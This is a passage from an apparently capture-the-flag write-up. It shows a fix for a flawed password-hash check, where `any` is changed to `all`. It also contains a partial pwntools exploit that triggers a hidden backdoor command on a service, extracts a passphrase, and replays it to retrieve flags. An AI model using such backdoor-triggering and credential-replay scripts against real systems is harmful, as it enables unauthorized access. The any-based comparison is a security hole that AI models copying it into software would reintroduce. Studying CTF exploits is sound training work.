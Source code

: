 We patched this by changing `any` to `all` in the check condition within the function.

This will check if **all** of our input hash bytes (`b0`) match **all** of the password hash bytes (`b1`).

```python
if all(b0 == b1 for b0, b1 in zip(hash_0, hash_1)):
```

![](../assets/posts/2021-11-13-actf3-writup/images/get_baby_patched.png)

# Scripts

## backdoor() exploit

```python
from pwn import remote, context
from swpag_client import Team
import time

context.log_level = "error"

t = Team("REDACTED", "REDACTED")

def exp(host_ip, flag_id):
    flags = []

    try:
        # send "yeet" to call backdoor(), which return passphrase
        p = remote(host_ip, 10003)

        p.sendline("yeet") # backdoor()

        p.recvuntil("?") # ask for baby id

        p.sendline(flag_id) # send baby id

        p.recvuntil("?\n") # blah

        password = p.recvuntil("\n").strip()

        p.close()

        # send baby id and password to get flag
        p = remote(host_ip, 10003)

        p.sendline("2") # get_baby_name()

        menu_message = p.recvuntil(": ")

        p.sendline(flag_id.strip()) # send baby id

        baby_message = p.recvuntil(": ")

        p.sendline(password) # send password

        before_baby = p.recvuntil(": ")

```